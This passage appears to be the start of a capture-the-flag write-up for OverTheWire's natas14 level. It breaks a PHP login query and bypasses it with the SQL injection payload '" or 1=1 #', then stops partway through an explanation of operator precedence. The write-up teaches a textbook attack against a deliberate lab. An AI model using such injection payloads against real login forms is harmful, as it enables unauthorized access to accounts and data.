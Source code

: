 And then this:

```php
if(mysql_num_rows(mysql_query($query, $link)) > 0) {
    echo "Successful login! The password for natas15 is <censored><br>";
} else {
    echo "Access denied!<br>";
}
```

So this should be a SQL Injection attack.

Let's start by looking at the query, in plain SQL it looks like this.

```sql
SELECT * FROM users WHERE username=? AND password=?
```

However there is no input sanitization, so we start by breaking it with a simple `"` (use the debug flag for a better understanding of what is going on).

```http
http://natas14.natas.labs.overthewire.org/index.php?debug&username="
```

We receive the following error message:

```txt
Notice: Undefined index: password in /var/www/natas/natas14/index.php on line 19
Executing query: SELECT * from users where username=""" and password=""

Warning: mysql_num_rows() expects parameter 1 to be resource, boolean given in /var/www/natas/natas14/index.php on line 24
Access denied!
```

We sucessfully broke the query!
Moving on to textbook SQLi.

```http
http://natas14.natas.labs.overthewire.org/index.php?debug&username=natas15&password=" or 1=1 #
```

*Note: use the url escaped form of the query or else it won't work*

The query as seen by the server is:

```sql
SELECT * from users where username="natas15" and password="" or 1=1 #"
```

You might be thinking why the query evaluates to `true` given that there is no user with an empty password, or so we assume.

Looking at the MySQL documentation for [operator precedence](https://dev.mysql.com/doc/refman/8.0/en/operator-precedence.html), we see `AND` has an higher precedence than `OR`, which results in the following AST.
